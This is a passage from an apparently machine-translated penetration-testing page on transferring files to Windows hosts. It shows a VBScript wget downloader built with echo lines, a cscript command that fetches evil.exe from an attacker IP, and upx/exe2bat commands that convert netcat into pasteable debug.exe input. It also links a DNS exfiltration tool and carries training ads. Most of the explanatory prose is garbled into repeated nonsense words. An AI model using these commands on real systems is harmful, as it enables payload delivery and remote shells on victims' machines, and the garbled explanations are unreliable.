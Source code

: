 ```bash
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

```bash
cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
```
## Debug.exe

`debug.exe` program vItlhutlh vItlhutlh vaj **hex vItlhutlh vItlhutlh vItlhutlh**. vaj hex binary vItlhutlh debug.exe vItlhutlh binary file. vaj, debug.exe **64 kb binary vItlhutlh vItlhutlh**. vItlhutlh.
```bash
# Reduce the size
upx -9 nc.exe
wine exe2bat.exe nc.exe nc.txt
```
vIghro' je copy-paste qar'a' windows-shell 'ej nc.exe file created will be.

* [https://chryzsh.gitbooks.io/pentestbook/content/transfering_files_to_windows.html](https://chryzsh.gitbooks.io/pentestbook/content/transfering_files_to_windows.html)

## DNS

* [https://github.com/62726164/dns-exfil](https://github.com/62726164/dns-exfil)

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

vItlhutlh vulnerabilities vItlhutlhpu' so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}


<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
